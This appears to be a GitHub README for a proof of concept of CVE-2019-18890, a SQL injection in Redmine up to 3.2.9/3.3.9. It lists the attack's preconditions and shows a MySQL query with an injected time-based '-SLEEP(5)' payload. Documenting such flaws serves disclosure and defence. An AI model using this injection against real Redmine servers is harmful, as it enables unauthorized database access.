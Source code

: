 # CVE-2019-18890
CVE-2019-18890 POC (Proof of Concept)

REDMINE UP TO 3.2.9/3.3.9 SQL INJECTION  

https://nvd.nist.gov/vuln/detail/CVE-2019-18890

## Requirements: 
+ Access credentials  
+ Subproject is required  
+ REST API is enabled  


On Mysql the first query on which injection occurs looks like the example below with the "-SLEEP(5)" being the injected part:  
<code>SELECT COUNT(*) FROM `issues` INNER JOIN `projects` ON `projects`.`id` = `issues`.`project_id` INNER JOIN `issue_statuses` ON `issue_statuses`.`id` = `issues`.`status_id` WHERE (((projects.status <> 9 AND EXISTS (SELECT 1 AS one FROM enabled_modules em WHERE em.project_id = projects.id AND em.name='issue_tracking')) AND (((projects.is_public = 1 AND projects.id NOT IN (SELECT project_id FROM members WHERE user_id IN (4,2))) AND ((issues.is_private = 0)))))) AND ((issues.status_id IN (SELECT id FROM issue_statuses WHERE is_closed=0)) AND projects.id IN (1,2,3-SLEEP(5)))</code>



